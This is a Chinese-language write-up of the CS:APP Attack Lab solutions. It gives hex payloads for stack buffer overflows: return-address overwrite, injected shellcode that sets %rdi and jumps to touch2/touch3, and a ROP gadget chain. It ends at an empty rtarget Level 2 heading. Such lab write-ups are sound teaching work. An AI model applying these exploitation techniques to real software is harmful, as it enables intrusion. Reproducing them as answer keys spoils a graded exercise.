 ### ctarget

#### Level 1

```c
30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30
/* 40 dummy bytes */

c0 17 40 00 00 00 00 00
/* inject return address*/
```

`getbuf`返回前做了`add $0x28,%rsp`，这时%rsp位置上就是函数返回地址，把它换掉即可。

#### Level 2

```c
48 c7 c7 fa 97 b9 59  /* mov $0x59b997fa, %rdi */
68 ec 17 40 00        /* pushq  $0x4017ec */
c3                    /* retq */
/* byte code = 13 bytes */

01 02 03 04 05 06 07 08 09 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 
/* 27 dummy bytes */

78 dc 61 55 00 00 00 00
```

和Level1一样hack返回地址，这次跳回输入缓冲区的头部，这里放一段inject code。需要把待传参的参数放在rdi寄存器里，然后push一个`touch2`的返回地址并`ret`。

#### Level 3 

```c
48 c7 c7 a8 dc 61 55  /* mov $0x5561dca8, %rdi */
68 fa 18 40 00        /* pushq  $0x4018fa */
c3                    /* retq */
/* byte code = 13 bytes */

01 02 03 04 05 06 07 08 09 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27
/* 27 dummy bytes */

78 dc 61 55 00 00 00 00
/* return address */

35 39 62 39 39 37 66 61 00
/* injected string */
```

需要把cookie的字符串摆在某个内存位置中。如果摆在return address之前，相当于位于`getbuf`的栈帧中，这部分一定会被`hexmatch`的栈帧覆盖掉（该函数申请了大数组）。所以必须把这部分字符串摆在返回地址之后，即`test`的栈帧中。

### rtarget

#### Level 1

```c
40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40
/* 40 dummy bytes */

ab 19 40 00 00 00 00 00
/* gadget 1: popq %rax*/

fa 97 b9 59 00 00 00 00
/* my cookie */

c5 19 40 00 00 00 00 00 
/* gadget 2: movq %rax, %rdi*/

ec 17 40 00 00 00 00 00
/* touch2 entry */
```

注意每次`ret`会使得`%rsp`+8。

#### Level 2
